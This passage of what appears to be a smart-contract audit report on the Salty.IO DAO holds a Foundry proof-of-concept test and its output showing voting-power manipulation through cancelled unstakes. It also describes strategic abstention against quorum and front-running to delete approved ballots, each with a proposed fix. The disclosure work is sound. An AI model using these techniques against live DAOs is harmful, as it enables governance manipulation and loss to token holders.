    dao.finalizeBallot(ballotID);
    // Check that the ballot is finalized
    bool isBallotFinalized = !proposals.ballotForID(ballotID).ballotIsLive;
    assertTrue(isBallotFinalized);
  }


	function test_t0x1c_cancelUnstakeToManipulateVotingPower() public {
		deal(address(salt), address(DEPLOYER), 6_000_000 ether);
		vm.prank(DEPLOYER);
		staking.stakeSALT(6_000_000 ether);
		uint256 aliceStakedAmount = 630_000 ether;
		deal(address(salt), address(alice), aliceStakedAmount);
		vm.startPrank(alice);
		staking.stakeSALT(aliceStakedAmount);


		// Set up the parameters for the proposal
		uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
		uint256 ballotID = 1;

		// Alice unstakes her SALT first, before floating the proposal
		uint256 aliceUnstakeAmount = 570_000 ether;
		uint256 unstakeID = staking.unstake(aliceUnstakeAmount, 52);


		// Propose a parameter ballot
		proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
		emit log_named_decimal_uint("requiredQuorumForBallotType =", proposals.requiredQuorumForBallotType(BallotType.PARAMETER), 18); // only 10% of (6_000_000 + 60_000) = 606_000

		// Alice cancels her unstake
		staking.cancelUnstake(unstakeID);

		skip(14 days);

		// Alice casts a vote, enough for quorum
		proposals.castVote(ballotID, Vote.INCREASE);

		vm.stopPrank();

		emit log_named_decimal_uint("votes cast in favour =", proposals.votesCastForBallot(ballotID, Vote.INCREASE), 18);

		// Now it should be possible to finalize the ballot
		dao.finalizeBallot(ballotID);
		// Check that the ballot is finalized
		bool isBallotFinalized = !proposals.ballotForID(ballotID).ballotIsLive;
		assertTrue(isBallotFinalized);
	}
```

Output:
```js
Ran 2 tests for src/dao/tests/DAO.t.sol:TestDAO
[PASS] test_t0x1c_cancelUnstakeToManipulateVotingPower() (gas: 954702)
Logs:
  requiredQuorumForBallotType =: 606000.000000000000000000
  votes cast in favour =: 630000.000000000000000000

[PASS] test_t0x1c_stakingAfterProposalCreation() (gas: 1045244)
Test result: ok. 2 passed; 0 failed; 0 skipped; finished in 10.52s
```

---

### <a id="m-04"></a>[M-04]
## **Voting mechanism heavily disfavours the `Yes` voters due to transparency of each vote**
#### https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L410
<br>

## Summary
The current proposal approval mechanism is:
- Total votes cast count should reach the minimum required quorum (anywhere between `10%` to `30%` of total staked SALT) and
- `Yes > No` votes are required

This works heavily in favour of those who do not want to pass the proposal. They will simply NOT cast their vote unless they see that the `Yes` votes are nearing the required quorum count. If the `Yes` votes are not able to achieve quorum on their own, the proposal is going to fail anyway. It makes no sense for those against the proposal to help reach quorum by casting their votes in advance.
<br>

The current mechanism works nicely for a secret ballot system - like in the real world election process where each vote is kept secret until the final reveal. In some countries & forms of elections, if the total number of votes cast is less than 10 or 20% of the population in that constituency, then the election results are scrapped (akin to reaching a minimum required quorum).
The current code logic works **only for secret ballots** OR **a time-bound election with no minimum-quorum**. The current protocol design is neither of those.

## Details
The incentive for a voter to cast their vote is when they feel the other side may win. Anything they can do to put the other side at a disadvantage is helpful. Consider the above example of a real-world election. If everyone knows that a minimum `10%` of the population needs to cast their vote AND THEN the new candidate has to get more votes in order to replace the current candidate AND that the election results will be declared AS SOON AS quorum is reached, then the following situation emerges -
- The 'Yes' voters (those who want the new candidate to be in power) will need to ensure their numbers alone are enough to reach quorum.
- This is because `No` voters will simply monitor the situation to see if `Yes` voters can surpass their first hurdle of reaching quorum.
- Once `Yes` voters are tantalizingly close to quorum, all `No` voters will now vote immediately since they can not risk `Yes > No` when quorum is reached. 

This heavily favours those already in power and is **not considered a fair election**. This is one of the reasons, among others, why each vote is kept secret until the end. Due to the secrecy, everyone participates from the start in order to avoid the other side from winning, making it a fair & healthy election.

This very approach is missing in the code logic. This issue was present both in the old as well as new implementation. However it was a lot riskier for `No` voters to use this approach & abstain from voting because there existed the possibility that the quorum value may change suddenly if someone unstakes and hence resulting in a sudden win of `Yes` voters. In contrast, in the new implementation since `requiredQuorum` is saved right at the time of proposal creation, it makes it a lot more safer now to use this tactic.

## Proof of Concept
Just some sample numbers to make the above description clearer -
- Consider the current SALT staked in the system to be `5_000_000`.
- Quorum for a proposal required = `10% of 5_000_000 = 500_000`.
- Alice, who had earlier staked `100_000` SALT, creates a proposal and votes `Yes`.
- Bob votes `Yes` with his `300_000` votes. Total `Yes` votes equal `400_000`, still below quorum.
- Charlie and Dan are against the proposal. They each have `100_000` SALT staked.
- Charlie and Dan choose not to vote at all. If they do, total votes would be `600_000`, reaching quorum and also making `Yes > No`. Better to abstain.
- Alice's proposal loses.

## Recommended Mitigation Steps
The following measures need to be taken:
- Follow a commit-reveal scheme to hide votes during the voting period, instead of allowing transparent votes viewable by everyone.
- The count of total votes can be open and viewable by all, throughout the process (this is already in place).
- The comparison `Yes > No ?` should be allowed only when total vote count has reached quorum. This is when votes are revealed.

---

### <a id="m-05"></a>[M-05]
## **Ballot winning at timestamp ballot.ballotMaximumEndTime can be front-run by manuallyRemoveBallot() and deleted**
#### https://github.com/othernet-global/salty-io/blob/main/src/dao/DAO.sol#L256
<br>

## Summary
Nobody, not even the owner of the proposal should be allowed to [manuallyRemoveBallot()](https://github.com/othernet-global/salty-io/blob/main/src/dao/DAO.sol#L256) once it has been approved. 

## Attack Vector
- Proposal attains approved status i.e. `proposals.ballotIsApproved(ballotID) = true` at timestamp equal to or greater than `ballot.ballotMaximumEndTime`.
- Attacker monitoring the mempool front-runs any call to [finalizeBallot()](https://github.com/othernet-global/salty-io/blob/main/src/dao/DAO.sol#L236) and calls [manuallyRemoveBallot()](https://github.com/othernet-global/salty-io/blob/main/src/dao/DAO.sol#L256) to delete the ballot.

Another less likely, but nevertheless possible scenario is where the owner of the proposal themself decide to delete the ballot even after all users have voted & helped it win. 
<br>

Such behaviour should not be allowed and the protocol can check that only unapproved ballots can be manually removed.

## Recommended Mitigation Steps
Add the following check:
```diff
	// Remove a ballot from voting which has existed for longer than the DAOConfig.ballotMaximumDuration
	function manuallyRemoveBallot( uint256 ballotID ) external nonReentrant
		{
		Ballot memory ballot = proposals.ballotForID(ballotID);

		require( block.timestamp >= ballot.ballotMaximumEndTime, "The ballot is not yet able to be manually removed" );
+		if ( ballot.ballotType == BallotType.PARAMETER )
+		  require( proposals.winningParameterVote(ballotID) != Vote.NO_CHANGE, "The ballot has already approved a parameter change" );
+		else
+		  require( !proposals.ballotIsApproved(ballotID), "The ballot is already approved" );

		// Mark the ballot as no longer votable and remove it from the list of open ballots
		proposals.markBallotAsFinalized(ballotID);
		}
```

---


